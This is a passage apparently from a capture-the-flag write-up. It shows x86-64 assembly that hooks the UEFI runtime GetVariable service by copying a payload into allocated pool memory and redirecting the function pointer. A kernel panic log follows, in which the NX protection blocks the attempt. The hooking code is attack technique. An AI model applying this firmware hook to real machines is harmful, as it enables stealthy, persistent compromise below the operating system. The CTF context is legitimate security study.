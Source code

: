 ```asm
  mov $(payload_end - payload),%rdx
  lea buffer_addr(%rip),%r8
  call *BS_off_AllocatePool(%r13)
  mov buffer_addr(%rip), %r14

  # GetVariable = R14
  mov %r14,RT_off_GetVariable(%r12)

  # memcpy(R14, payload, payload_end - payload)
  lea payload(%rip),%rsi
  mov %r14,%rdi
  mov $(payload_end - payload),%rcx
  rep movsb

  xor %eax,%eax
  pop %r14
  pop %r13
  pop %r12
  pop %rdi
  pop %rsi
  ret

buffer_addr:
  .quad 0

payload:
  mov (%rsp),%rax
  push %rsi

  test %rax,%rax
  jns preboot

[...]

preboot:
  pop %rsi
  mov orig_getvariable(%rip),%rax
  push %rax
  ret

orig_getvariable:
  .quad 0

payload_end:
```

This caused a kernel panic at boot:

```
+ mkdir -p /proc /dev /sys /etc /mnt
+ mount -n -t proc -o nosuid,noexec,nodev proc /proc/
+ mount -n -t devtmpfs -o mode=0755,nosuid,noexec devtmpfs /dev
+ mount -n -t sysfs -o nosuid,noexec,nodev sys /sys
+ mount -n -t tmpfs -o mode=1777 tmpfs /tmp
+ mount -t efivarfs efivarfs /sys/firmware/efi/efivars
[    3.586082] kernel tried to execute NX-protected page - exploit attempt? (uid: 0)
[    3.586756] BUG: unable to handle page fault for address: fffffffeff7c9e98
[    3.586955] #PF: supervisor instruction fetch in kernel mode
[    3.587109] #PF: error_code(0x0011) - permissions violation
[    3.587349] PGD 1aec067 P4D 1aec067 PUD 1af0063 PMD 1af7063 PTE 800000001e5c9023
[    3.587706] Oops: Oops: 0011 [#1] NOPTI
[    3.588102] CPU: 0 UID: 0 PID: 27 Comm: kworker/u4:2 Not tainted 6.15.4-uiuctf-2025 #1 PREEMPT(voluntary)
[    3.588371] Hardware name: QEMU Standard PC (Q35 + ICH9, 2009), BIOS unknown 02/02/2022
```